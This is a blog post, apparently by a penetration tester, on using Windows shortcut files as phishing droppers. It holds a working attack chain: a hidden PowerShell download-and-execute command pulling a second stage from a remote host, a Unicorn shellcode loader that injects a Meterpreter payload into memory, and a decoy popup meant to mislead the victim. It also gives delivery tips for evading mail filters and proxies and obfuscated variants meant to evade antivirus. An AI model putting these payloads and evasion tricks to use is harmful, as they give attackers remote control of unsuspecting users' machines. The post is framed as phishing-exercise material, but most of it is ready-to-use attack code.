 ```yaml
---
id: 9
title: Shortcuts another neat phishing trick
date: 2016-12-28 T21:50:00+01:00
author: Rik
layout: post
permalink: /2016/12/28/shortcuts-another-neat-phishing-trick/
---
```


<br><br>
Recently I read a blog about a Locky campaign using windows shortcut files to infect users. The microsoft blog describes a large scale phishing attack send Windows shortcut files in zip archives. For more inforamtion see: The TechNet blog.. The trick revolves around the fact that cmd.exe and powershell.exe both allow for commands passed via arguments. Creating a shortcut with the command parameters included will allow for powershell exectuion with a double click.

We do allot of phishing attacks and for all the backdoor related stuff we rely heavily on office macro’s using PowerShell. Or one of the available script formats like .js/.wsf/.jse/.hta etc etc. The issue is that organisations are disabling macro’s via the group policy and script files are being blocked via web/e-mail channels. If you haven’t blocked the execution of Macro’s via the command line look at this.

The Locky campaign used a download and execute trick which makes an executable touch disk which is easily detectable by AV. We cannot be AV-friendly as we rely on this for our phishing attacks detection would mess us up. Thats why we will use the lnk file als a stager, loading another PowerShell script which in turn will load Meterpreter. We could use a shortcut like the following:

```powershell
%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe -windowstyle hidden -command "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.255.170/script');"
```
On our webserver we can host the second stage, i like to use unicorn in order to inject our Meterpreter payload into memory. And combine that with a simple popup in order to tell the user everything is fine and to cary on with his or her day. So the “script” file we host will contain something like:

```powershell
powershell -ExecutionPolicy bypass -window hidden -e &lt;BASE64 ENCODED COMMAND&gt;
```

Keep in mind that PowerShell wants it’s commands in unicode, its easiest to just do prepare the base64 in PowerShell. Otherwise encode your command with utf_16_le before base64 encoding. For the popup box we can use the following code:

```powershell

#MessageBox
[System.Reflection.Assembly]::LoadWithPartialName("System.Windows.Forms") ; 
[System.Windows.Forms.MessageBox]::Show("Your system has now been enrolled, thank you for you cooperation.", "YourCompany Enrollment.") ;  
#Unicorn output
$XF3ZnA = '$a9wC = ''[DllImport("kernel32.dll")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);[DllImport("kernel32.dll")]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);[DllImport("msvcrt.dll")]public static extern IntPtr memset(IntPtr dest, uint src, uint count);'';$w = Add-Type -memberDefinition $a9wC -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];[Byte[]]$z = 0xbf,0xbb,0x96,0xcd,0xd0,0xdb,0xc1,0xd9,0x74,0x24,0xf4,0x5d,0x2b,0xc9,0xb1,0x57,0x31,0x7d,0x15,0x83,0xc5,0x04,0x03,0x7d,0x11,0xe2,0x4e,0x6a,0x25,0x52,0xb0,0x93,0xb6,0x33,0x39,0x76,0x87,0x73,0x5d,0xf2,0xb8,0x43,0x16,0x56,0x35,0x2f,0x7a,0x43,0xce,0x5d,0x52,0x64,0x67,0xeb,0x84,0x4b,0x78,0x40,0xf4,0xca,0xfa,0x9b,0x28,0x2d,0xc2,0x53,0x3d,0x2c,0x03,0x89,0xcf,0x7c,0xdc,0xc5,0x7d,0x91,0x69,0x93,0xbd,0x1a,0x21,0x35,0xc5,0xff,0xf2,0x34,0xe4,0x51,0x88,0x6e,0x26,0x53,0x5d,0x1b,0x6f,0x4b,0x82,0x26,0x26,0xe0,0x70,0xdc,0xb9,0x20,0x49,0x1d,0x15,0x0d,0x65,0xec,0x64,0x49,0x42,0x0f,0x13,0xa3,0xb0,0xb2,0x23,0x70,0xca,0x68,0xa6,0x63,0x6c,0xfa,0x10,0x48,0x8c,0x2f,0xc6,0x1b,0x82,0x84,0x8d,0x44,0x87,0x1b,0x42,0xff,0xb3,0x90,0x65,0xd0,0x35,0xe2,0x41,0xf4,0x1e,0xb0,0xe8,0xad,0xfa,0x17,0x15,0xad,0xa4,0xc8,0xb3,0xa5,0x49,0x1c,0xce,0xe7,0x05,0x8c,0xb5,0x63,0xd6,0x38,0x42,0xe5,0xb8,0xd1,0xf8,0x9d,0x08,0x55,0x26,0x59,0x6e,0x4c,0x17,0xbe,0xc3,0x3c,0x04,0x13,0xb7,0xaa,0x90,0xc5,0x4e,0x8c,0x1b,0x3c,0xe3,0x81,0x89,0xbc,0x57,0x75,0x25,0x78,0x56,0x79,0xb5,0x96,0xd5,0x79,0xb5,0x66,0xc9,0x40,0xe7,0x57,0x23,0xd9,0x07,0xc8,0x23,0x4a,0x8e,0x77,0x75,0x8b,0x45,0x0e,0xbc,0x27,0x0d,0x11,0x73,0x28,0x49,0x42,0x20,0xfb,0x06,0x36,0x90,0x93,0x43,0xed,0x32,0x5f,0x6c,0xdb,0xdd,0xf5,0x98,0xbb,0x89,0x89,0xaf,0x43,0x4a,0x03,0x2f,0x29,0x4e,0x43,0xc5,0xb1,0x18,0x0b,0x6c,0x88,0x3a,0x4d,0x71,0xc1,0x10,0x01,0xde,0xb9,0xc0,0xcd,0xcd,0x3b,0xf5,0x76,0xf2,0x91,0x80,0x49,0x79,0x10,0xc4,0x3c,0x58,0x4c,0x2a,0x0b,0xf8,0xdb,0x35,0xa1,0x96,0xa3,0xa1,0x4a,0x76,0x24,0x32,0x23,0x76,0x24,0x72,0xb3,0x25,0x4c,0x2a,0x17,0x9a,0x69,0x35,0x82,0x8f,0x21,0x99,0xa4,0x48,0x92,0x75,0xb7,0xb6,0x1d,0x86,0xe4,0xe0,0x75,0x94,0x9c,0x85,0x64,0x67,0x75,0x10,0xa8,0xec,0xbb,0x91,0x2e,0x0c,0x87,0x20,0xf0,0x7b,0xe2,0x72,0x32,0xdc,0x04,0xf7,0x4b,0x1c,0x2b,0xc6,0x8a,0xd1,0xfa,0x19,0xdb,0x2d,0x2d,0x6b,0x16,0x7b,0x1f,0xba,0x6f,0xb3,0x5f;
$g = 0x1000;if ($z.Length -gt 0x1000){$g = $z.Length};$fRu=$w::VirtualAlloc(0,0x1000,$g,0x40);for ($i=0;$i -le ($z.Length-1);$i++) {$w::memset([IntPtr]($fRu.ToInt32()+$i), $z[$i], 1)};$w::CreateThread(0,0,$fRu,0,0,0);for (;;){Start-sleep 60};';
$e = [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($XF3ZnA));$XF3Z = "-e ";if([IntPtr]::Size -eq 8){$ZsQ = $env:SystemRoot + "\syswow64\WindowsPowerShell\v1.0\powershell";iex "& $ZsQ $XF3Z $e"}else{;iex "& powershell $XF3Z $e";} ;

```

The above PowerShell is a simple popup box combined with the output of Unicorn.py this allows us to load a our binary into memory.

Shortcuts can have any icon we want thats a big plus when we compare this to the script-based attacks. We can give it an icon that is appealing to a regular user or an icon that combines well with out phishing scenario.

this <img src="/images/short01.png" width="80"> or something like this <img src="/images/short02.png" width="80">

So lets recap:

* User clicks shortcut
* PowerShell gets executed
* Our script get’s downloaded & executed
* We receive our meterpreter shell
* User clicks and sees this:


Once the popup window is closed the second part get’s executed and we receive our shell.

<img src="/images/short03.png" width="600">


The modern version of Outlook blocks lnk files by default, an alternative would be to use a zip file containing a lnk file. Mostly I distribute the file via a file-download. If you choose to go this route use HTTPs Letsencrypt is free and you reduce the chance of detection via a proxy/webfilter.

Another interesting approach is embedding the file into an office document as an OLE object. This could be used as an alternative to the macro’s and gives a user a minimal warning. The warning for the lnk file is minor especially compared to the clicking of an .exe as embedded object. Great thing about OLE objects is the capability of using custom icons again:

<img src="/images/short04.png" width="600">



Clicking the icon in the office document will execute our PowerShell script. In the screenshot above we are using a simple Excel icon we could also do something with a button. That could be used for a scenario involving file decryption or some form of “activation”.
After a discussion with @Viss it seems that some AV companies try and detect scripts based on the Invoke-Expression alias. Invoke-Obfuscation can help bypass AV detection, after running our download script trough various iterations with Invoke-Obfuscation it can go from this:

<img src="/images/short05.png" width="600">


```powershell
IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.255.170/script');
```

to this:

```powershell
Invoke-Expression( ([Regex]::Matches(" ))93]rahC[ f-)';)}'+'0{tpi'+'rc'+'s/07'+'1.'+'552'+'.861.291//:ptth}0'+'{(g'+'nirt'+'Sda'+'oln'+'woD.'+')'+'tn'+'ei'+'lC'+'beW.teN.m'+'etsyS tcejbO'+'-weN('+' XE'+'I'((( XEI ",'.', 'RightToLeft')-Join'' ) )
</code
>
to this:

```powershell
IEX( -JoIn ('49@6eM76M6fM6b{65U2d{45@78{70@72Z65Z73Z73Z69{6f&lt;6e@28{20@20M28@5b{52U65@67&amp;65&amp;78U5d@3a&lt;3aU4d&lt;61M74@63&lt;68I65M73U28@22{20&amp;29{29M39&lt;33&lt;5dM72I61U68M43Z5bU20&lt;20@66Z2d&amp;29I27U3b{29M7dZ27U2b&lt;27Z30M7bM74M70&lt;69&amp;27I2bI27{72I63Z27M2b@27@73M2fZ30&amp;37I27M2b@27&lt;31{2eZ27U2bM27@35I3532Z27Z2bZ27Z2e@38I36@31@2eI32U39{31I2f&lt;2f&lt;3a&amp;70I74&amp;74I68I7d&lt;30{27{2bZ27@7b&lt;28U67Z27&amp;2b@27@6e&lt;69&amp;72Z74I27I2bM27@53Z64&amp;61M27I2bZ27{6f&lt;6c{6e@27&amp;2bU27&lt;77M6f&amp;44&lt;2eZ27&lt;2b{27{29I27&lt;2bI27Z74{6e&lt;27@2b&lt;27M65I69M27@2bI27&amp;6cI43M27M2b@27U62&lt;65&amp;57{2eI74&lt;65{4e{2e&lt;6d@27I2b&lt;27I65{74I73&amp;79I53I20&lt;74Z63Z65@6a{62U4f&lt;27{2bZ27{2d&amp;77U65&amp;4eI28I27&amp;2b&lt;27{20Z58I45&amp;27Z2b&lt;27&amp;49@27U28{28{28&lt;20{58&amp;45U49Z20I22&amp;2c&lt;27@2eM27M2c{20@27&amp;52&lt;69&lt;67U68&lt;74Z54Z6f@4c&amp;65M66I74I27@29&amp;2dM4a@6f@69M6e{27{27@20M29{20@29'-sPLit '&lt;' -SPLIt'I'-SpLIT'Z'-splIT'&amp;'-SPLit'{' -sPLit'M'-SPliT'U'-SPlIt'@'|FoREaCH-oBjECt{( [COnveRT]::ToInT16( ( [StrinG]$_),16 )-As[char]) } ))
```

Invoke-Obfuscation is an awesome tool for obfuscating your PowerShell, it’ll save me some time during phishing exercises!

That’s all folks! If you have any questions, find me on Twitter: Follow <a href="https://twitter.com/rikvduijn">@rikvduijn</a>